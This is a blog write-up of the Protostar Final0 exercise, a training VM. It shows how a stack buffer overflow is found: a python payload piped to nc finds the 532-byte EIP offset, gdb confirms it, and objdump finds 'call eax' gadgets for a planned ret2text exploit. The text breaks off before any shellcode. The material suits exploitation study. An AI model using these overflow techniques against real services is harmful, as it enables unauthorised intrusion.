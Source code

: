 +++
author = "pwntester"
categories = ["Protostar", "Final0", "Final1", "Final2", "CTF", "Exploiting"]
date = 2013-12-26T09:07:00Z
description = ""
draft = false
slug = "protostar-final0-3-write-ups"
tags = ["Protostar", "Final0", "Final1", "Final2", "CTF", "Exploiting"]
title = "Protostar Final0-3 write-ups"

+++


## Final0
The [application](http://exploit-exercises.com/protostar/final0) is expecting a username and then returns it in Upper case

```lang-bash line-numbers 
$ nc localhost 2995
alvaro
No such user ALVARO
```

The buffer is 512 bytes long but we need to look for the EIP overwrite offset since the compiler can change the buffer size to align it or other nasty reasons. We start trying to segfault the program till we get it with:

```lang-bash line-numbers 
echo `python -c 'print "A"*532 + "DDDD"'` | nc localhost 2995
```

We can verify it with gdb and the core dump:

```lang-bash line-numbers 
root@protostar:~# gdb -q -c /tmp/core.11.final0.21580
Core was generated by `/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0x44444444 in ?? ()
```

We will use a **ret2text** technique since there is call to **strdup** just before returning from the vulnerable function, so we will control **eax** and it will point to a copy of our input data in the heap. So the exploit should place the shellcode at the beggining of the user input (after a convenient **NOP** sled) followed by some garbage till we reach the **EIP** overwrite offset: 532

We will need the "call eax" opcodes to be present in **.text**

```lang-bash line-numbers 
user@protostar:~$ objdump -M intel -d /opt/protostar/bin/final0 | grep "call.*eax"
 8048d18:	ff 14 85 9c ac 04 08 	call   DWORD PTR [eax*4+0x804ac9c]
 8048d5f:	ff d0                	call   eax
 804992b:	ff d0                	call   eax
```

We can verify the addresses content in gdb:

```lang-bash line-numbers 
root@protostar:~# gdb -q -c /tmp/core.11.final0.21781
Core was generated by `/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0x44444444 in ?? ()
(gdb) x/i 0x08048d5f
0x8048d5f:	call   *%eax
(gdb) x/i 0x0804992b
0x804992b:	Cannot access memory at address 0x804992b
```
